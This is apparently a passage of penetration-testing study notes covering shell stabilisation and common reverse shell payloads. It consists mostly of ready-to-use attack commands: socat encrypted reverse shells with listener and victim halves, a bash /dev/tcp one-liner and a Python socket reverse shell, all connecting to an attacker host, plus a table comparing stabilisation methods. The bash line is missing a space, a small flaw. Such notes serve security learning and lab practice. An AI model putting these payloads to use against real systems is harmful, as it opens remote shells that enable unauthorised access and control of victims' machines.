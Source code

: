 **Listener (Attacker Machine)**

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

**Victim Machine (Connect Back)**

```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

**Example: Using the tty technique with OPENSSL-LISTEN** 

```bash
# Listener 
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0

# Connect back
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

### **Summary Table**

| **Method** | **Best For** | **Pros** | **Cons** |
| --- | --- | --- | --- |
| **Python TTY** | Linux | Simple, no extra tools | Manual steps, no **`Ctrl+C`** |
| **`rlwrap`** | Windows/Linux | Better history & tab-complete | Still needs manual stabilization |
| **Socat** | Linux | **Fully stable TTY** | Requires **`socat`** on target |

---

## **Common Shell Payloads & Msfvenom**

Shell payloads are malicious code snippets that, when executed, create a connection between the attacker and the target machine. They come in two main types:

1. **Reverse Shell** – Victim connects back to the attacker.
2. **Bind Shell** – Attacker connects to a listening port on the victim.

---

### **1. Common Shell Payload Formats**

**A. Reverse Shell Payloads**

**Bash (Linux)**

```bash
bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT>0>&1
```

**Python**

```python
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("<ATTACKER-IP>",<PORT>)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```
